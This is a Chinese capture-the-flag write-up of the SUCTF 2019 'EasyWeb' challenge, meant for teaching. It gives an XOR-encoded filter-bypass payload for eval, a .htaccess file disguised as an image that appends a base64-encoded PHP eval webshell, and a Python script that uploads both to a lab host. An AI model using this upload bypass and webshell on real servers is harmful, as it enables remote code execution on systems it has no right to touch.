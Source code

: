 # \[SUCTF 2019]EasyWeb

## \[SUCTF 2019]EasyWeb

## 考点

* PHP传参特性，PHP参数传递特性，PHP参数污染，PHP的字符串解析特性
* .htaccess特性
* .htaccess在没有\<?的情况下制作图片马

## wp

给了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

两个部分，一个要执行get\_the\_flag函数，一个要绕文件上传

### 第一部分

传入参数长度小于等于18，并且由不超过12个字符组成。这些字符不包括这些

```
ASCII范围不包含
0-32，48-57，65-90，97-122，127
还有
'"`~_&.,|=[
```

![](<../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png>)

可以看出来没有过滤的是`$^{}%();`等等。一般来说，PHP传参是`$_GET["a"]`这种形式，但是在PHP7也可以这样`${_GET}{a}`

paylaod: `_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo` 相当于 `_=${_GET}{%ff}();&%ff=phpinfo`

### 第二部分

文件上传，后缀不能有`ph`，上传的文件内容不能有`<?`，并且会用`exif_imagetype`函数对上传文件进行检测

后缀不能有`ph`，那就是`.htaccess`或者`.user.ini`

内容不包含`<?`那就是`<script language="php">`，但是在PHP7被弃用

不确定中间件不确定PHP版本，看一下phpinfo，得到信息<mark style="color:orange;">`PHP7.2`</mark>和<mark style="color:orange;">`apache2`</mark>，REMOTE\_ADDR是10.244.80.46

![](<../.gitbook/assets/image (7) (1) (1) (1).png>)

这样思路就明确了，上传`.htaccess`让服务器把图片文件解析成木马，但有几个问题

* `.htaccess`格式很严格，加上图片头文件apache是解析不了的，如何让它被识别成图片
* 图片文件在没有`<?`的情况下如何写马

<mark style="background-color:orange;">第一个问题有两个方法</mark>

一是

```
#define width 1337
#define height 1337
```

二是

`.htaccess`文件前加上16进制的`x00x00x8ax39x8ax39`，也即wbmp文件的开头，并且`.htaccess`文件中以`0x00`开头是注释符

<mark style="background-color:orange;">第二个问题是用</mark>`.htaccess`文件的`auto_append_file`包含base64解码的shell

.htaccess

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
```

shell.gif

```
GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4=
```

然后上传可以用POSTman或者脚本都可以

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
"""
shell = b"GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4="
url = "http://fd0b9d5f-f8d6-4615-8a64-5c5eac845091.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.gif',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

连接成功后发现权限好像不对，输什么都是返回ret=127，看了一下phpinfo，是要进行bypass\_disable\_function，用蚁剑自带的插件就可以。因为是PHP7.2，所以用了PHP7 Backtrace UAF进行bypass。

![](<../.gitbook/assets/image (16) (1) (1).png>)

## 小结

1. PHP传参是`$_GET["a"]`这种形式，但是在<mark style="color:orange;">PHP7</mark>也可以这样`${_GET}{a}`
2. 用`.htaccess`文件的`auto_append_file`可以包含base64解码的shell
